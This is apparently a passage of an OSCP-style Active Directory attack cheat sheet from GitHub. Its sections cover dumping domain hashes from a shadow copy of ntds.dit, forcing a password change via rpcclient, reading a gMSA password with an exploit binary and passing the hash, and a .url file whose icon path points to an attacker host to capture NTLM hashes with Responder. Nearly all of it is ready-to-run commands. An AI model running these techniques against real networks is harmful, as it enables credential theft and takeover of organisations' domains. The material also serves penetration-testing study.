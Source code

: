 ### Shadow Copies [only as Domain Admin]
```javascript
in Windows:
vshadow.exe -nw -p C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
reg.exe save hklm\system c:\system.bak

#transfer these files to local kali machine and get all the hashes !!
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```


### Forced Password Change Using rpcclient

```powershell
ForceChangePassword [Using RPC-client]
 suppose we are `support` user and we have Privileges to chnage the password of `admin` user

--> First authenticate via RPC using the support username and his credentials
# rpccleint -U support IP 
rpcclient $> setuserinfo2 admin 23 'Password@123'
```

### Read GMSA Password 

![image](https://github.com/kullaisec/OSCP/assets/99985908/fe4a40fb-61c4-43f2-bdd6-87d811c6c349)

```powershell
The Web Admins can see the GMSA password of svc_apache$ user !!

We know that enox user is a member of Web Admins

So we can get the svc_apache$ user hash !!

Exploit Binary Path : https://github.com/expl0itabl3/Toolies/blob/master/GMSAPasswordReader.exe

/home/kali/offsec/AD/tools/Tools/GMSAPasswordReader.exe

Reference: https://swisskyrepo.github.io/InternalAllTheThings/active-directory/pwd-read-gmsa/#gmsa-attributes-in-the-active-directory

PS> .\gmsapasswordreader.exe --accountname svc_apache
```
![image](https://github.com/kullaisec/OSCP/assets/99985908/4160a3e7-6964-4dbd-afd8-3f63b8ee6041)

You can see the hash `rc4hmac` you can pass the hash and get the interacted shell !!


### SMB to NTLM Theft

Create a offsec.url as below

```powershell
[InternetShortcut]
URL=anything
WordkingDirectory=anything
IconFile=\\KALI-IP\%USERNAME%.icon
IconIndex=1
```
Just Upload via SMB CLIENT and listen via Responder you will get the NTLM Hash !!

